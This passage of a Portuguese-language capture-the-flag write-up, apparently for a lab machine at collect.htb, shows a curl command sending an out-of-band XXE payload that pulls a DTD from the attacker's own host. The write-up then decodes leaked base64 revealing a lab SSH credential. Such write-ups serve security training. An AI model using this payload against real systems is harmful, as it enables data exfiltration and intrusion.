 Hospede o "**xpl.dtd**" em um servidor python, e envie a payload novamente.

**Payload:**

```
curl -X POST http://collect.htb/api -d 'manage_api=<!DOCTYPE root [<!ENTITY % xpl SYSTEM "http://<your-ip>/xpl.dtd">%xpl;]><root><method>POST</method><uri>/auth/register</uri><user><username>test</username><password>test</password></user></root>' -b "PHPSESSID=bm935pn4sdq6k9f6ccmrf6ve8u"
```

**Resposta no servidor python:**

<figure><img src="./assets/32.png" alt=""><figcaption></figcaption></figure>

Decodificando o base64 contido no parâmetro "**leak**", conseguimos ler o conteúdo da página hospedada em "**developers-localhost.collect.htb**":

```
echo 'PGh0bWw+CjxwcmU+CmJ1aWxkIHJvdXRlIC9jbGllbnQgaW4gcG9sbHV0aW9uX2FwaQpjcmVhdGUgYSBzd2FnZ2VyLCBkb2N1bWVudGluZyBhbGwgcG9sbHV0aW9uX2FwaSByb3V0ZXMKdXBkYXRlIHRoZSBsaWJzIHVzZWQgaW4gcG9sbHV0aW9uX2FwaQpzZXQgbmV3IHBlcm1pc3Npb25zIGZvciB3ZWJhcHBfdXNlciB1c2VyIGluIG15c3FsCgohISFDT05ORUNUIFRPIFNTSCBUTyBETyBUSEUgREFJTFkgVEFTS1MhISEKam9objpqb2hucG9sMjQxNDIKPC9wcmU+CjwvaHRtbD4K' | base64 -d
```

<figure><img src="./assets/33.png" alt=""><figcaption></figcaption></figure>
